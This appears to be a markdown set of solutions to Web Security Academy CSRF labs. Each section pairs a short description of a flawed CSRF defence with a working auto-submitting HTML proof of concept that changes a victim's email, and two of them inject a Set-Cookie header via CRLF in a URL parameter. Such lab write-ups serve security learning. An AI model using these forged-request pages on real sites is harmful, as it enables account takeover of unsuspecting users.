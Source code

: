 # Cross-site request forgery (CSRF)

## CSRF vulnerability with no defenses
```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="https://ac641fc01f8852e280239bac003f00dc.web-security-academy.net/email/change-email" method="POST">
      <input type="hidden" name="email" value="meme&#64;google&#46;com" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>


```

## CSRF where token validation depends on request method
*Some applications correctly validate the token when the request uses the POST method but skip the validation when the GET method is used.*
```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="https://ac9a1fb21fc952f180fd9e6d00de00dc.web-security-academy.net/email/change-email">
      <input type="hidden" name="email" value="meme&#64;google&#46;com" />
      <input type="hidden" name="csrf" value="GPQ1yr4tZuvlT6LTNZoL0IpnlIxrUCBj" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>

```

## Validation of CSRF token depends on token being present
*Some applications correctly validate the token when it is present but skip the validation if the token is omitted.*
```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="https://acbd1fc11e01347580292559002c009b.web-security-academy.net/email/change-email" method="POST">
      <input type="hidden" name="email" value="root&#64;meme&#46;com" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>

```

## CSRF where token is not tied to user session
*Some applications do not validate that the token belongs to the same session as the user who is making the request.
Instead, the application maintains a global pool of tokens that it has issued and accepts any token that appears in this pool.*
```html
<html>
  <body>
    <form action="https://ac951fd61fbca61f80cd57e100bf002d.web-security-academy.net/email/change" method="POST">
      <!-- Attacker's token -->
      <input required type="hidden" name="csrf" value="nvYjyCnkZg9lxPdk0jUwfsYsM7IGqZP5">
      <input type="hidden" name="email" value="pwned@evil-user.net" />
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>
```

## CSRF where token is tied to non-session cookie
*In a variation on the preceding vulnerability, some applications do tie the CSRF token to a cookie, but not to the
same cookie that is used to track sessions. This can easily occur when an application employs two different frameworks,
one for session handling and one for CSRF protection, which are not integrated together.*
```html
<!-- Cookie csrfKey works as session ID here. It's app weakness. -->
<html>
  <body>
    <form action="https://ac131f731e467c88807003ba01eb0021.web-security-academy.net/email/change" method="POST">
      <!-- Attacker's token -->
      <input required type="hidden" name="csrf" value="YKm0bbE4NCHbFlmEt77LfeZPzlSLYY5r"/>
      <input type="hidden" name="email" value="test@meme.com" />
    </form>
    <!-- Vulnerability which allows an attacker to inject a cookie to victim.  -->
    <img src="https://ac131f731e467c88807003ba01eb0021.web-security-academy.net//?search=test%0d%0aSet-Cookie:%20csrfKey=kE4no0fY9JeJvK9KSGzoZrIYZ7PTubzQ" onerror="document.forms[0].submit()">
  </body>
</html
```

## CSRF where token is duplicated in cookie
*In a further variation on the preceding vulnerability, some applications do not maintain any server-side record of
tokens that have been issued, but instead duplicate each token within a cookie and a request parameter.
When the subsequent request is validated, the application simply verifies that the token submitted in the
request parameter matches the value submitted in the cookie. This is sometimes called the "double submit" defense
against CSRF, and is advocated because it is simple to implement and avoids the need for any server-side state.*
```html
<html>
  <body>
    <form action="https://ac251fc31f9c6869805c480f00090062.web-security-academy.net/email/change" method="POST">
      <input required type="hidden" name="csrf" value="myCsrfToken"/>
      <input type="hidden" name="email" value="pwned@evil-user.net" />
    </form>
    <!-- Vulnerability which allows an attacker to inject a cookie to victim. -->
    <img src="https://ac251fc31f9c6869805c480f00090062.web-security-academy.net/?search=test%0d%0aSet-Cookie:%20csrf=myCsrfToken" onerror="document.forms[0].submit()">
  </body>
</html>
```

## CSRF where Referer validation depends on header being present
*Some applications validate the Referer header when it is present in requests but skip the validation if the header is omitted.*
```html
<html>
  <head>
    <meta name="referrer" content="never">
  </head>
  <body>
    <form action="https://ac341ff21e634bca80a3b4fa00840005.web-security-academy.net/email/change" method="POST">
      <input required type="hidden" name="csrf" value="myCsrfToken"/>
      <input type="hidden" name="email" value="pwned@evil-user.net" />
    </form>
    <img src="1" onerror="document.forms[0].submit()">
  </body>
</html>
```

## CSRF with broken Referer validation
*Some applications validate the Referer header in a naive way that can be bypassed. For example, if the application
simply validates that the Referer contains its own domain name, then the attacker can place the required value
elsewhere in the URL.*
```html
<html>
  <body>
    <form action="https://ac5b1f021ef24bb18010b59d00cf0004.web-security-academy.net/email/change" method="POST">
      <input type="hidden" name="email" value="pwned@evil-user.net" />
    </form>
    <script>
      history.pushState("", "", "/ac5b1f021ef24bb18010b59d00cf0004.web-security-academy.net")
      document.forms[0].submit();
    </script>
  </body>
</html>
